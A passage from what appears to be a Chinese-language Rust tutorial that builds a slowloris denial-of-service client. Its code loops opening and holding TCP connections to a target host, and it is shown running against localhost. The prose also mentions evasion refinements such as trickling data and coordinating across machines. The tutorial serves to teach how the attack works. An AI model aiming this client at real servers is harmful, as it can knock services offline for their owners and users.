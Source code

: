 ```rs
                .long("port")
                .value_name("PORT")
                .help("Sets which port to listen on")
                .takes_value(true),
        )
        .get_matches();

    let host: &str = matches.value_of("host").unwrap_or("localhost");
    let port = matches
        .value_of("port")
        .unwrap_or("1987")
        .parse::<u16>()
        .expect("port-no not valid");

    let client = root.new(o!("host" => host.to_string(), "port" => port));
    info!(client, "Client ready to be mean. >:)");
```

在`main`中，我们启动了报告线程并忽略了它的句柄：

```rs
    let reporter_log = root.new(o!("meta" => "report"));
    let _ = thread::spawn(|| report(reporter_log));
```

这就只剩下提交 slowloris 攻击了，这对客户端来说令人失望地简单：

```rs
    let mut streams = Vec::with_capacity(2048);
    loop {
        match TcpStream::connect((host, port)) {
            Ok(stream) => {
                TOTAL_STREAMS.fetch_add(1, Ordering::Relaxed);
                streams.push(stream);
            }
            Err(err) => error!(client, 
                               "Connection rejected with error: {:?}", 
                               err),
        }
    }
}
```

嗯，就是这样，一个简单的循环尽可能快地连接。一个更复杂的设置会通过套接字发送涓流数据来击败积极的超时或限制连接的总数以避免怀疑，并与其他机器协调一致。

网络上的恶作剧是一场没有人真正赢的军备竞赛，这是道德。

不管怎样，让我们看看这个客户端的实际运行情况。如果你运行`cargo run --release --bin client`，你应该会得到以下结果：

```rs
> cargo run --release --bin client
    Finished release [optimized] target(s) in 0.22 secs
     Running `target/release/client`
host: localhost
 port: 1987
  Apr 22 21:50:49.200 INFO Client ready to be mean. >:)
meta: report
 Apr 22 21:50:49.200 INFO Total connections: 0
 Apr 22 21:50:49.201 INFO Connections per second: 0
 Apr 22 21:50:50.200 INFO Total connections: 0
 Apr 22 21:50:50.200 INFO Connections per second: 1160
 Apr 22 21:50:51.204 INFO Total connections: 1160
 Apr 22 21:50:51.204 INFO Connections per second: 1026
 Apr 22 21:50:52.204 INFO Total connections: 2186
 Apr 22 21:50:52.204 INFO Connections per second: 915
```
